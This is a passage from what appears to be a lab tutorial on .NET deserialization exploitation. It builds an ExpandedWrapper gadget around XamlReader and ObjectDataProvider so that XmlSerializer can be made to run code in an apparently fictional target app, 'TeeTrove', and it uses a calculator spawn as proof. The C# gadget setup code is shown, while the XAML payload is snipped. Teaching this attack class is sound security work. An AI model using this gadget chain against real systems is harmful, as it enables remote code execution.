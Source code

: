 Inside the `XAML` output, we can see a very long section listing all the `environment variables`. Since we don't need any specifically defined values, we can just remove this entire section ( `sd:ProcessStartInfo.EnvironmentVariables`) to save space. Now before we do anything else, let's try deserializing the `payload` with `XamlReader.Load` just to make sure everything is working correctly so far. We can comment out the previous code and add the following lines to test:

```csharp
string payload = "<ObjectDataProvider <SNIP>";
XamlReader.Load(new MemoryStream(Encoding.ASCII.GetBytes(payload)));

```

As expected, when we run the program a calculator is spawned!

![image](WoyLDODZ9ekW.png)

#### ExpandedWrapper

At this point we have a payload for `XamlReader`, so we can get back to figuring out how we will pass this to `XmlSerializer` so that we can exploit `TeeTrove`. Going back to the slide from the BlackHat talk, we can see that it mentions a class called `ExpandedWrapper` that we need to use so that `XmlSerializer` understands runtime types.

![image](R9O90q43Reo2.png)

`ExpandedWrapper` is an internal `.NET Framework` class that we can use to wrap our `XamlReader` and `ObjectDataProvider` into an object which is `serializable` by `XmlSerializer`. We can comment everything else out and add the following lines to the end of our exploit program to set it up:

```csharp
string payload = "<ObjectDataProvider <SNIP>"; // The payload for XamlReader

ExpandedWrapper<XamlReader, ObjectDataProvider> expWrap = new ExpandedWrapper<XamlReader, ObjectDataProvider>();
expWrap.ProjectedProperty0 = new ObjectDataProvider();
expWrap.ProjectedProperty0.ObjectInstance = new XamlReader();
expWrap.ProjectedProperty0.MethodName = "Parse";
expWrap.ProjectedProperty0.MethodParameters.Add(payload);

```

There will be an error regarding `ExpandedWrapper` because it is not referenced. Clear this up by hovering, selecting `Show potential fixes` and then selecting `using System.Data.Services.Internal (from System.Data.Services)`.

![image](DiI8vU6PfJVC.png)

Note that we used `Parse` instead of `Load` in the code above. `Parse` calls `Load` internally, and although `Load` resulted in the calculator spawning in our previous test, only `Parse` works for this next one. Running the program like this should once again result in a calculator spawning.

![image](d2hqRZ4MEbTV.png)

Now, we can add lines at the end of our program to serialize the `ExpandedWrapper` object with `XmlSerializer`:
